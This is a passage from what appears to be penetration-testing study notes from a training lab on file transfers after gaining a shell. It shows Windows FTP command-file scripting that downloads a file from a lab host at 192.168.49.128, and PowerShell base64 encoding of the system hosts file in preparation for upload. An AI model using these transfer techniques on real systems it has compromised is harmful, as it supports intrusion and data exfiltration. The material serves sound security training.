 When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

<mark style="color:orange;">**Create a Command File for the FTP Client and Download the Target File**</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
{% endcode %}

{% hint style="info" %}
**`-n`**&#x20;

désactive la connexion automatique, ce qui est utile si tu veux contrôler manuellement les étapes de connexion, comme fournir des informations d'identification spécifiques via un fichier de commandes (`-s:ftpcommand.txt`).

**-s**

**.txt** _(script file)_ :

* Spécifie un fichier contenant une série de commandes FTP à exécuter. Ici, le fichier `ftpcommand.txt` contient toutes les commandes nécessaires à l'automatisation de la session FTP (ouvrir une connexion, s'authentifier, télécharger un fichier, etc.).
* Le préfixe `-s:` est utilisé pour indiquer au client FTP que les commandes doivent être lues à partir de ce fichier plutôt que d'être tapées manuellement.
{% endhint %}

***

## <mark style="color:red;">Upload Operations</mark>

### <mark style="color:blue;">PowerShell Base64 Encode & Decode</mark>

<mark style="color:orange;">**Encode File Using PowerShell**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3....o=
PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```
{% endcode %}
